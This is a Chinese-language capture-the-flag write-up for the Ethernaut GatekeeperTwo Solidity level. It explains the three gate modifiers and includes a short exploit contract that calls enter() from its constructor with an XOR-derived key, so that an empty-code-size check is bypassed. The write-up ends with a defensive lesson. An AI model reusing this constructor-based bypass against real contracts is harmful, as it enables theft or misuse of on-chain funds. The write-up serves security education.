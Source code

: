 # 第十四关：GatekeeperTwo

### 本关知识点：
```
1. 内联汇编
2. solidity的encodePacked编码方式
3. solidity的uint64最大值取值
4. 合约的创建时字节码和运行时字节码
```

## 1. 题目要求
`这个守门人带来了一些新的挑战, 同样的需要注册为参赛者来完成这一关 `

## 2. 代码功能解读
![[Pasted image 20230520102046.png]]

## 3. 漏洞分析
```
成功调用enter方法
	创建一个合约来进行外部调用通过修饰器一
	通过创建一个空合约来通过修饰器二
	做异或^的算法完成修饰器三
```

## 4. 攻击方法
```
contract Exploit {

  constructor(address victim) {

    bytes8 result;

    result = bytes8(uint64(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max));

    GatekeeperTwo two = GatekeeperTwo(victim);

    two.enter(result);

  }

}
```

## 5. 攻击调用图

部署攻击合约就可以完成攻击
![[Pasted image 20230520103422.png]]
![[Pasted image 20230520103700.png]]
## 6. 知识点分析
  合约的运行时字节码为空并不代表这是一个用户账户，合约账户通过在构造器中执行代码也可以达到没有运行时字节码的效果，所以**不要用运行时字节码为空来判断是否为用户账户**。

如果对大家有用，请点赞；如果喜欢，请订阅加点赞，会一直更新~